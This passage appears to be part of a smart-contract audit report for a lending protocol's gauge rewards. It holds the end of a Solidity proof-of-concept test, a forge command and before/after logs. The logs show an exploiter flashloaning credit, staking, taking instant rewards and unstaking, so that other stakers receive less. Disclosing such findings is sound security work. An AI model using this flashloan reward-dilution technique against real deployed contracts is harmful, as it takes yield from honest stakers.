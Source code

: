 ```solidity
        console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
    }

    // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
    function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
        uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
        uint256 YEAR = 31557600;

        interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
    }
}
```

There are tests for both cases – one without the attack and another with the attack scenario.

Run them with:

```solidity
forge test --match-contract "DeflateGuildHoldersRewardsUnitTest" --match-test "testGuildHoldersRewards" -vvv
```

```solidity
Logs:
  -------------------------------AFTER ATTACK-------------------------------
  EXPLOITER Credit Balance before flashloan:                               0
  EXPLOITER Credit Balance after flashloan:       10000000000000000000000000
  EXPLOITER Credit balance after stake:                                    0
  EXPLOITER (instant) Credit reward:                      205305960080000000
  EXPLOITER (instant) Guild reward:                      1026529800400000000
  EXPLOITER credit balance after unstake:         10000000205305960080000000
  Staker1 credit reward:                                       4106119201600
  Staker1 guild reward:                                       20530596008000
  Staker2 credit reward:                                      16424476806400
  Staker2 guild reward:                                       82122384032000
  Staker3 credit reward:                                      12318357604800
  Staker3 guild reward:                                       61591788024000
  GaugeProfitIndex:                                      1000000010265298004

Logs:
  ------------------------------BEFORE ATTACK------------------------------
  Staker1 credit reward:                                   25667351129363200
  Staker1 guild reward:                                   128336755646816000
  Staker2 credit reward:                                  102669404517452800
  Staker2 guild reward:                                   513347022587264000
  Staker3 credit reward:                                   77002053388089600
  Staker3 guild reward:                                   385010266940448000
  GaugeProfitIndex:                                      1000064168377823408
```
